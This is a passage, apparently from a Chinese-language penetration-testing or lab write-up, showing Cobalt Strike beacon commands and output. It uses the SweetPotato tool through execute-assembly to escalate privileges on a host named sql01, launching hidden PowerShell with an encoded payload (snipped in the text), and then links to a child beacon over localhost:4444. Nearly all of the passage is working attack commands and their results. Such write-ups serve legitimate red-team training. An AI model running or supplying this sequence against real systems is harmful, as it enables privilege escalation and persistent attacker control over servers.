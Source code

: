 [*] Completed collection in 0.01 seconds
```

这里使用[SweetPotato](https://github.com/CCob/SweetPotato)提权

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Debug\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql01/pipe/7365ffd9-7808-4a0d-ab47-45850a41d7ed
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.18.221	
```


